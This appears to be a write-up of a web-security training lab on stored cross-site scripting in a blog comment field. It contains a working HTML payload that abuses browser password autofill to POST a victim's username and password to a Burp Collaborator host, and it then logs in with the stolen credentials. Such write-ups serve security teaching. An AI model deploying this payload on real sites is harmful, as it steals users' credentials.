






# Lab: Exploiting cross-site scripting to capture passwords

> Lab Objective: exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

- Firstly, Enter simple input like this `test'"><` in Blog Comment functionality, then search for the input in the Source Code.
  

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When viewing page source code, I've noticed that the comment input field is the only field where these `'"><` characters are interpreted normally, while the other input fields the previous characters are html encoded.
  

- Therefore, I'll inject `<script>alert(0)</script>` in the comment input field.
  

- The `alert(0)` function is executed successfully.
  

- In order to exfiltrate the victim's username and password, I'll use the Browser's autofill functionality.

- So The payload will be like this:

```html
<input name="username" id="username" />
<input
  type="password"
  name="password"
  onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

- When submitting the comment, the credentials is sent to the collaborator
  

- Login with those credentials, and the lab is solved.
  

---
